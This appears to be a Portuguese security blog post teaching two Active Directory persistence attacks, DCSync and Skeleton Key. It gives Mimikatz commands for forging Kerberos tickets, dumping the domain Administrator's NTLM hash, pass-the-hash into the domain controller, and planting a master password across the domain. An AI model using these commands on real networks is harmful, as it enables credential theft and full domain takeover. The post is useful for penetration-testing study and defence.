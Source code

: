 ```yaml
---
title: "Active Directory - Persistência no Domínio"
tags: [Windows, Active Directory]
categories: ActiveDirectory
---
```


![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/persistencia.png)

# Considerações Iniciais

Aqui vamos abordar duas técnicas muito utilizadas quando se fala de persistência em ambientes de Active Directory, o ataque de `DCSync` e o `Skeleton Key`

É importante notar que devemos ter acesso do Domain Controller pra realizar esses ataques, uma vez que estão atrelados à pós-exploração.

# DCSYnc

Com o ataque de DCSync vamos ter acessso ao hash do Administrator da DC e consequentemetne a máquina através do PTH

A ideia é parecida com a do Constrained Delegation, só que vamos gerar tickets para o LDAP e através desse ticket gerado pegar o hash do administrator!

Geramos o ticket para LDAP e injetamos ele

```
tgt::ask /user:dbservice /domain:DOMÍNIO /ntlm:HASH_DO_DBSERVICE /ticket:dbservice.kirbi
tgs::s4u /tgt:TGT_dbservice@XXXX_krbtgt~XXXX@XXXX.kirbi /user:Administrator@XXXX /service:time/XXXXX.local|ldap/XXXX.local
Invoke-Mimikatz -Command '"kerberos::ptt TGS_Administrator@XXXX@XXXX_ldap~XXXX@XXXX_ALT.kirbi"'
```

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/persistencia1.png)

Agora executamos o ataque de DCSync e extraimos o hash do administrator

`Invoke-Mimikatz -Command '"lsadump::dcsync /user:usfun\Administrator"'`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/persistencia2.png)

Bom, com o hash fica fácil de fazermos um PTH e ter acesso ao DC

```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:administrator /domain:XXXXXX /ntlm:hash_administrator_dc /run:powershell.exe"'
Enter-PSSession -ComputerName dc
```

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/persistencia3.png)

Esse foi o ataque de `DCSync`, a partir do Constrained delegation conseguimos gerar tickets para o LDAP e sendo assim extrair o hash ntlm do administrator do DC!

# Skeleton Key

O próximo ataque é chamado de `Skeleton Key`, ele tem esse nome por que vai nos permitir acessar qualquer máquina do domínio com uma senha mestre, a partir do momento que tomamos o controle do DC.

Note que aqui é necessário já estar dentro da máquina, então executando esse ataque após um DCSync, por exemplo

Após ter tomado o controle do DC, com um shell reverso mesmo.

"Baixamos" o mimikatz para a máquina `TEM QUE SER O EXECUTÁVEL` e executamos o ataque

```
privilege::debug
misc::skeleton
```

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/esc.png)

Pronto! Feito! Agora acessamos qualquer máquina desse domínio com a credencial `mimikatz`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/esc1.png)

É importante ressaltar que esse ataque só pode ser feito uma vez, então caso quando você tente fazer dê erro, pode ser que alguém já tenha realizado nele no domínio.